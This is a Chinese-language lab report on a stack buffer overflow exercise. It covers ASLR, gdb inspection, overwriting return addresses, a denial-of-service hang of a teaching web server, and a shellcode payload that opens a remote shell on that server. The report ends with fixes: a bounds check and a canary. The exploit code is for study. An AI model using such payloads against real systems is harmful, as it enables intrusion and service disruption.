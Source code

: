 #缓冲区溢出实验
> 缓冲区在本实验中指的是在栈中的字符数组，c语言数组没有边界检查，因为向数组中填入了超过其大小的数据，导致其溢出覆盖了其他数据，引起安全问题。

现代操作系统都引入了一些列的保护措施，如 **内存地址随机化** 。

 实验1，在`func`中输出`buffer`的地址，因为内存随机化的原因，三次输出的地址都是不相同的，分别是`0x0xbfb47750 0xbfe06650 0xbfbbe4f0`。
 > 内存地址随机化：每次程序执行，其栈地址都不相同，这让我们很难猜测函数的返回地址
 
 在实验3中，因为关闭了ASLR，所以三次输出的地址都相同。在实验四中，用gdb打印出`%eip`的值，这个值不是一个正常的程序地址，因为ret被缓冲区溢出的数据改变了，所以程序崩溃了
。我们可以overwrite这个函数的返回地址，让其指向我们的代码，这样我们就进行了一个缓冲区溢出攻击。

实验5，先是通过gdb手动修改了func函数的返回地址
让其指向badman这个函数，因为badman不是正常调用运行的，所以在其结束时，程序不知指向何方产生了段错误，为了解决这种情况，我们可以
在badman中调用exit函数来结束程序。

实验6，用提供的shellcode来是stack2产生一个shell，程序如下
```c
int func(char *str)//在主函数中把shellcode的地址传给str
{
  char buffer[128];
  /* fill code in here:
   */
   int * ret;//定义一个指向返回地址的指针
   ret=(int *) (buffer+144);//经过gdb，发现ret在buffer+144的地方
   //  *ret =int buffer;//不能在这里直接给*ret赋值，回被str覆盖掉
  strcpy(buffer, str);
 (*ret) = (int) buffer;
  return 1;
}

```
实验7，找出给的服务器的漏洞，经查找，在getToken这个函数中存在一个`while(1)`，如果不满足一定的条件，`s[i]`会一直被赋值，这里会
导致s[1024]这个数组溢出。

> getToken用来取“GET / http1.1\r\n\r\n”，在遇到`' '`或者`\r\n`时会`return`

实验8，攻击服务器，是浏览器一直处于等待服务器信息的状态，利用上一个实验发现的饿漏洞，只要发送http请求时，没有空格和换行符，getToken
就一直处于while循环中，服务器卡住。

实验9，通过栈溢出，是服务器端产生一个shell。

>这里不能让getToken处于死循环，如果这样getToken就不能返回，也就不能执行我们的代码。经过测试，浏览器发送1065个字节的数据给服务器，最后一个字节为空格符（使gettoken退出）
,这里发送的字节不能多也不能少，少了没法覆盖返回地址，多了会把fd给淹没掉，socket连接会被关掉。

关键程序代码如下
```c
  char uri[1065];//uri不能太大，否则会把是getToken的参数fd也覆盖掉，这样getchar就读不到fd程序在getchar内终止
	/*先把返回地址写到字符数组*/
  long *addr_s;
  int i;
  addr_s=(long *)uri;
  for(i=0;i<266;i++)
         addr_s[i]=0xbffff9e8;//返回地址为通过gdb服务器得到的
         //在gdb服务器时，调试子进程需要设置如下参数
         //set follow-fork-mode child 
  for(i=0;i<strlen(shellcode);i++)
           uri[i]=shellcode[i];
     uri[1065]='\0';
     uri[1064]=' ';
     //这里的uri是传给socket套接字的
 
```

实验10:修复缓冲区漏洞

1. 可以通过监视s[i]中i的值来防止缓冲区被溢出`if(i>=1024) return;`
2. 可以在s[1023]处，添加个变量，如果检测到该值被修改，退出


